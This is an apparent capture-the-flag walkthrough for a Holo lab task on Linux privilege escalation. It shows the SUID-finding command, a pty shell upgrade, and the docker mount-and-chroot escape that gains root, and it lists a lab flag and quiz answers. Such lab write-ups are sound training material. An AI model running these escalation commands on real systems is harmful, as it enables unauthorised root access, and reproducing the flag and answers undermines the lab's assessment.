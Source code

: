 **Note:** Please be mindful of other users trying to proceed in the network. Please do not stop the Docker container from running. It will prevent users from proceeding throughout the network. Also, please clean up after yourself. If you transfer a docker container image to the VM, remember to remove it after you finish elevating privileges.

![[Task 20 - Call me Mario, because I got all the bits-20240919143826003.webp]]

Now that we have a shell on L-SRV01 and escaped the container, we need to perform local privilege escalation to gain root on the box.  

Local privilege escalation is when you take your average level user access and exploit misconfigurations and applications to gain privileged level access. This is typically done by exploiting a specific application or service that was misconfigured on the device.  

Several resources can help you through privilege escalation on Linux. Some of these resources are outlined below for you to use.  

- [](https://book.hacktricks.xyz/linux-unix/privilege-escalation)[https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)[https://github.com/swisskyrepo/PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/)  
- [](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

In this task, we will be covering one specific privilege escalation technique and a script that we can use to speed along the process of finding misconfigurations we can exploit.  

We will utilize a script called Linpeas to run a thorough check of potential exploits to begin our privilege escalation attempts. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).  

To use Linpeas, we need to download the script from the repository above on our attacking machine. Then we can utilize a web hosting service such as http.server, updog, or php to host the file onto the target machine. Linpeas does not require any arguments or parameters to run; you only need to run it as a standard binary.  

Syntax: `./linpeas.sh`

Linpeas may take around 5-10 minutes to complete. Once complete, you would need to parse through the output and look for any potentially valuable information.  

The specific exploit that we will be looking at is abusing the SUID bit set on binaries. From [linux.com](http://linux.com/) *"SUID (Set owner User ID upon execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged-in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather than the user who runs it."* This means that if the program or file is running as root and we have access to it, we can abuse it to grant us root-level access. Below you can find what the SUID bit looks like, along with a table of other bits that can be set.  

![[Task 20 - Call me Mario, because I got all the bits-20240919143651873.webp]]

|   |   |   |
|---|---|---|
|**Permission**|**On Files**|**On Directories**|
|SUID Bit|User executes the file with permissions of the _file_ owner|-|
|SGID Bit|User executes the file with the permission of the _group_ owner.|File created in directory gets the same group owner.|
|Sticky Bit|No meaning|Users are prevented from deleting files from other users.|

Besides using Linpeas to find the files with a SUID bit, you can also use a bash one-liner shown below to search for files with this bit set.  

Command: `find / -perm -u=s -type f 2>/dev/null`

Once we have identified a file that we thank may be exploitable, we need to search for an exploit for it. A helpful resource to search for exploits on specific applications and programs is GTFOBins, [https://gtfobins.github.io/](https://gtfobins.github.io/).  

An example of an exploit can be found below for a dig SUID. Exploits may vary between each application and vulnerability as each has its unique ways security researchers have found they can be abused.  

![[Task 20 - Call me Mario, because I got all the bits-20240919143733244.webp]]

If successful, you should now have the same permission levels as the binary you exploited.


---

# Your job


- Run `find / -perm -u=s -type f 2>/dev/null`.
	![[Task 20 - Call me Mario, because I got all the bits-20240920144647952.webp]]

- Check the permissions on the `/usr/bin/docker` file.
	www-data@ip-10-200-95-33:/var/www/html$ `ls -la /usr/bin/docker`
	![[Task 20 - Call me Mario, because I got all the bits-20240920150939806.webp]]
	With the suid bit set, you can execute this binary as root.

## gtfobins

- Looking at gtfobins you'll find that, you can use this docker binary to escalate privilege. 
- The way it works is, you are gonna spawn up a docker container and as SUID-bit is set, you can do it as root. 
- Then you will mount the entire file system in one of the directories inside docker, that way you can visit that directory and access the entire file system of the actual host machine. 
- To spawn up a docker container, you need to find a docker image. 
- You already know a ubuntu image is there on the machine because an ubuntu docker container is running in the network, so you’ll find that with :

	www-data@ip-10-200-95-33:/var/www/html$ `docker image ls`
	![[Task 20 - Call me Mario, because I got all the bits-20240920152123566.webp]]


- Look for `docker` on gtfobins.
	![[Task 20 - Call me Mario, because I got all the bits-20240920151524586.webp]]

- Stabilize the shell.  
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`

- Run the final command and spawn up that image with root permission.
	www-data@ip-10-200-95-33:/var/www/html$ `/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt bash`
	![[Task 20 - Call me Mario, because I got all the bits-20240920152724566.webp]]

- This command actually goes ahead and runs the container in interactive mode using the `ubuntu:18.04` image. 
- Mounts the host OS root directory / entire file system in the `/mnt` directory of docker container. 
- Then changes the default root directory of the docker container to the `/mnt` directory. 
- That means you don’t have to go to `/mnt` to visit the entire filesystem, the root directory is already set to that.


---

## Flag after rooting L-SRV01

- On container shell go to root@c7aa4ecf64fa:~# `/root` and run:  
    `cat root.txt`
    
    HOLO{e16581b01d445a05adb2e6d45eb373f7}
    
- Submit the user flag on Task 4, question 3.


## Answer the questions

> What is the full path of the binary with an SUID bit set on L-SRV01?
> `/usr/bin/docker`

> What is the full first line of the exploit for the SUID bit?
> `sudo install -m =xs $(which docker) .`


**Next step:** [[Task 21 - From the Shadows]]

